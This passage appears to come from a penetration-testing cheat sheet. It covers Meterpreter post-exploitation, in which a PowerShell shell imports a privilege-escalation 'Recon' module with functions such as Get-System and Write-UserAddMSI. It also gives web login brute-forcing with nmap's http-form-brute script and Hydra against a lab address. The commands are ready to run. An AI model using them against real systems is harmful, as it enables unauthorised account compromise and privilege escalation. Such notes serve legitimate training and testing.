 # we then fire up a powerupshell 
meterpreter > powershell_shell 

# we then import the shell via command below						  
PS > cd  C:\Windows\system32\WindowsPowerShell\v1.0
PS > Import-Module -Name C:\Windows\system32\WindowsPowerShell\v1.0\Modules\Recon -Verbose

# we should expect the following output below
VERBOSE: Loading module from path 'C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
VERBOSE: Loading module from path 'C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
VERBOSE: Exporting function 'Get-System'.
VERBOSE: Importing function 'Write-UserAddMSI'.
....

# Get command help for Recon Module functions
PS > cd  C:\Windows\system32\WindowsPowerShell\v1.0\Modules
PS > Get-Command -Module Recon
CommandType     Name                                                Definition
-----------     ----                                                ----------
Function        ...                                                    ...
...

## burpsuite and ZAP web brutreforcing  -
https://rajendrakv.wordpress.com/2020/06/14/brute-force-using-burp-suite-and-owasp-zap/


## nmap web bruteforcing

# web bruteforcing with nmap - https://hub.packtpub.com/brute-forcing-http-applications-and-web-applications-using-nmap-tutorial/
nmap --script=http-form-brute.nse -p 8000 --script-args http-form-brute.method=POST,http-form-brute.path=/vbcms/login,http-form-brute.uservar=username,http-form-brute.passvar=password,http-form-brute.onsuccess=MESSAGE <targetIP>

## Hydra web bruteforcing 

# hydra web login bruteforce on port 8000 -method 1 - https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/
hydra -L /home/kali/Wordlists/top-usernames-shortlist.txt -P /home/kali/Wordlists/top-passwords-shortlist.txt 10.10.18.182 -s 8000 http-post-form "/vbcms/login:username=^USER^&password=^PASS^:ENTER HERE THE EXACT ERROR MESSAGE" -t 64 -v -V -R
